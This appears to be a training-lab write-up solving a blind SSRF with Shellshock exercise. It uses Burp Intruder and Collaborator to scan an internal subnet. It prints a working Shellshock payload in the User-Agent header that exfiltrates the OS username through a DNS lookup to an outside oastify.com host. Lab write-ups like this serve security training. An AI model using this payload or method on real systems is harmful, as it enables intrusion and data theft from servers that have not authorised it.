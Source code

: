 # Lab: Blind SSRF with Shellshock exploitation

 This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. 

**Note**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

# Step 1 enable "Collaborator Everywhere" extension

![image](https://user-images.githubusercontent.com/83407557/210154720-6eb9da98-cb89-4c5a-bc3f-21d5e16fbdf0.png)

# Step 2 add target domain to scope:

![image](https://user-images.githubusercontent.com/83407557/210154759-5af7a07a-bb26-42c5-9daf-6e81bc21cdce.png)

![image](https://user-images.githubusercontent.com/83407557/210154768-55611307-caf4-4c6c-a822-3f7b048a65ba.png)

# Step 3 Walk the product page

I see that Collaborator got a hit when browsing the product page:

![image](https://user-images.githubusercontent.com/83407557/210154825-2f310b59-2da2-461b-beae-103c4f7b6d3d.png)

I send the product page request to intruder:

# Step 4 Create a collaborator payload 

Getting the collabe url:

![image](https://user-images.githubusercontent.com/83407557/210154921-4fcf2a35-7309-4f7a-ab7b-ad05b5fe5cb6.png)

URL: l6s56xjkdv3bn7216hsihqpds4yvmlaa.oastify.com

Shellshock payload:

```bash
() { :; }; /usr/bin/nslookup $(whoami).l6s56xjkdv3bn7216hsihqpds4yvmlaa.oastify.com
```

# Step 5 Add payload to inturder's User-Agent string:

![image](https://user-images.githubusercontent.com/83407557/210154977-0cb69e69-6e9e-4bac-925f-ccb7292c4dbe.png)

# Step 6 change Referer Header to target an internal subnet

![image](https://user-images.githubusercontent.com/83407557/210154994-420b1a1c-dc7e-4ff7-939c-6f20e6fae4e9.png)

add a payload position for the last octet of internal ip address:

![image](https://user-images.githubusercontent.com/83407557/210155010-4d38f437-2bd6-43ac-a4d7-e5204013a712.png)

make the paload numbers 1-255 then launch the attack

![image](https://user-images.githubusercontent.com/83407557/210155018-da309d4a-deb7-4579-a3f6-131f18ef6dcb.png)

# Step 7 poll collaborator:

When I poll my collaborator I see that DNS lookups were made containing the username:

![image](https://user-images.githubusercontent.com/83407557/210155049-e51a4801-4a42-4db7-bbbd-76fff97ab4e0.png)

# Step 8 enter username:

![image](https://user-images.githubusercontent.com/83407557/210155060-286b9265-2c5d-46de-9554-5890e9a8241f.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210155064-8fdb9973-9504-44d8-9d67-a5dd666b3864.png)

